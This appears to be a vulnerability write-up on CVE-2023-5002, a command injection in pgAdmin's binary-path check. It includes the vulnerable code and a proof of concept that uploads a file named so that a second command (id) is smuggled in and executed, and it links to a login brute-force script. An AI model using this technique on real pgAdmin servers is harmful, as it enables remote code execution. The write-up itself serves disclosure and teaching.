





# CVE-2023-5002

## Description

[This vulnerability][1] is a continuation of vulnerability [CVE-2022-4223][2] ([there is a good article][3] about this vulnerability).

[A security researcher][4] found the vulnerability and [created a pull request][5] with a fix and example of command injection:
```python
 >>> subprocess.getoutput(r'echo "{0}"'.format("Hello $(whoami)").replace('"', '""'))
Hello gronke
```

The problem is that pgadmin allows you to check the existence of utilities by passing the path to them:


in this case, [validation is carried out][6] only for the existence of such a path:
```python
...
    # if path doesn't exist raise exception
    if not os.path.exists(binary_path):
        current_app.logger.warning('Invalid binary path.')
        raise Exception()
    # Get the output of the '--version' command
    version_string = \
        subprocess.getoutput('"{0}" --version'.format(full_path))
...
```

For such a check to pass, the file must exist in the system. Fortunately, pgadmin has a storage manager that allows you to upload any files.

## Proof of Concept

We have everything to exploit the vulnerability.

We should start by preparing a file that needs to be uploaded to `pgadmin`. Since command execution occurs when the file name puts in `subprocess.getoutput`, the file must simultaneously be a valid path and command.
```bash
$ touch 'test";id;#"'
$ python3
>>> import os, subprocess
>>> os.path.exists('test";id;#"')
True
>>> subprocess.getoutput('"{0}" --version'.format('test";id;#"'))
uid=1000(user) gid=1000(user) groups=1000(user)
```

After preparing the file, we need to upload it `tools -> storage manager -> upload`:


Our file loaded, but the double quotes were removed:


We also need to rename the file to return double quotes instead of url encoded chars:


By default, `pgadmin` saves all downloaded files in `/var/lib/pgadmin/storage/user@domain.com` but with the `@` character replaced by `_`.

You can find the exact path in the settings (they can be read by an authorized user via the `API`):
```python
...
STORAGE_DIR = "/var/lib/pgadmin/storage"
...
```

And finally run our file for execution `file -> preference -> binary path` used full path to our file `/var/lib/pgadmin/storage/user_domain/test";id;#"`:


## Bonus parts

### CVE-2024-2044

Just a week ago (from the moment of writing this article) [an issue was created][97] in pgadmin with a new RCE ([backup link][98]).

### Brute-force login

As a bonus to vulnerability, [get a script][99] for brute force login in PgAdmin as a gift.


[1]: https://nvd.nist.gov/vuln/detail/CVE-2023-5002
[2]: https://nvd.nist.gov/vuln/detail/CVE-2022-4223
[3]: https://frycos.github.io/vulns4free/2022/12/02/rce-in-20-minutes.html
[4]: https://github.com/gronke
[5]: https://github.com/pgadmin-org/pgadmin4/pull/6772
[6]: https://github.com/pgadmin-org/pgadmin4/blob/c08953b9b386e302835585bded6da4df70358e71/web/pgadmin/misc/__init__.py#L268
[97]: https://github.com/pgadmin-org/pgadmin4/issues/7258
[98]: https://gist.github.com/dorosch/748e62c23b25003c830ed1297ff292c9
[99]: https://gist.github.com/dorosch/8320a91106d0684d6d2784def2d0cede
